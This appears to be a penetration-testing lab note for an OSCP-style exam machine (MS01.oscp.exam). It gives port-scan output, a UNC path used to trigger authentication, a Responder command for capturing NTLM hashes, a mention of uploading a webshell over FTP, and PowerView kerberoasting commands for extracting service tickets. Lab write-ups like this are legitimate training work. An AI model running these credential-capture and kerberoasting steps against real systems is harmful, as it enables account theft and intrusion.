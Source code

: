 Windows ttl=125

# rustscan

```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 125
22/tcp    open  ssh          syn-ack ttl 125
135/tcp   open  msrpc        syn-ack ttl 125
139/tcp   open  netbios-ssn  syn-ack ttl 125
445/tcp   open  microsoft-ds syn-ack ttl 125
5040/tcp  open  unknown      syn-ack ttl 125
8080/tcp  open  http-proxy   syn-ack ttl 125
8443/tcp  open  https-alt    syn-ack ttl 125
47001/tcp open  winrm        syn-ack ttl 125
```

# nmap

```
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open     ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   filtered netbios-ssn
445/tcp   open     microsoft-ds?
5040/tcp  open     unknown
8080/tcp  filtered http-proxy
8443/tcp  open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=MS01.oscp.exam
| Subject Alternative Name: DNS:MS01.oscp.exam
| Not valid before: 2022-11-11T07:04:43
|_Not valid after:  2023-11-10T00:00:00
|_http-title: Bad Request
|_ssl-date: 2024-06-18T07:19:58+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (86%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-18T07:19:46
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

# initial

![[Pasted image 20240618175057.png]]

have this URL page and got lead me to think about responder and catch hash with it

```
\\\\192.168.45.224\test
```

```
sudo responder -I tun0 -A
```

![[Pasted image 20240618175318.png]]

catch and cracked hash

### nxc

tried with all services but not worked with any

### ftp

I could able to put files in ftp and access on port `8000` even I uploaded webshell but couldn't get connection back from it

### ssh

ssh was also open so just get inside it with `web_svc`

couldn't find anything so did kerberoasting and got new creds for `sql_svc`

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat
```

Then just make it pivot
